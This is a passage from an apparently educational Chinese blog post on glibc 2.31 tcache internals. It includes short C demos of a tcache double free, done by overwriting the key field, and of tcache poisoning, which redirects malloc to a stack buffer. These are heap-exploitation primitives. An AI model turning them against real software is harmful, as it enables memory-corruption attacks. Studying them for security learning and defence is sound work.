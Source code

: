 # 2. tcache<br>
其实之前的blog也讲过，参考[glibc 2.31 常见利用手法](https://wsxk.github.io/glic231/)中`tcache利用篇`的章节。<br>
`tcache`，是ptmalloc分配器中的`Thread Local Caching`,它的诞生是为了加速 单线程中小内存的重复申请。<br>
`tcache bin`是一个先进先出的单向链表，不过多复述。<br>
## 2.1 tcache free过程(glibc2.31)<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20250224213746.png)

## 2.2 tcache allocation过程(glibc2.31)<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20250224214133.png)
tcache在malloc过程中不会检查，这给了我们可乘之机。<br>

## 2.3 tcache double free(glibc2.31)<br>
在tcache double free的成立条件是**释放内存块a后，仍然能够修改a->key=0x1234，绕过double free的校验**<br>
```c
int main(){
    unsigned long long * a;
    a = malloc(128);
    printf("Original malloc: %p\n",a);
    printf("Freeing: %p\n",a);
    free(a);

    printf("Corrupting key of: %p\n",a);
    a[1] = 0x1234;
    printf("Double-freeing: %p\n",a);
    free(a);

    printf("malloc 1: %p\n",malloc(128));
    printf("malloc 2: %p\n",malloc(128));
    printf("malloc 3: %p\n",malloc(128));
}
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20250225221727.png)

## 2.4 tcache poisoning(glibc2.31)<br>
所谓的tcache poisoning，实际是**释放内存块a后，仍然能够修改a->next=xxxx，使其执行某个我们设置的内存块**<br>
```c
int main(){
    char stack_buffer[16];
    unsigned long long *a;
    unsigned long long *b;

    a = malloc(16);
    b = malloc(16);

    free(b);
    free(a);

    a[0] = stack_buffer;

    printf("Stack buffer: %p\n",stack_buffer);
    printf("First malloc: %p\n",malloc(16));
    printf("Second malloc: %p\n",malloc(16));
}
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20250225222546.png)
# 3. Chunks and Metadata<br>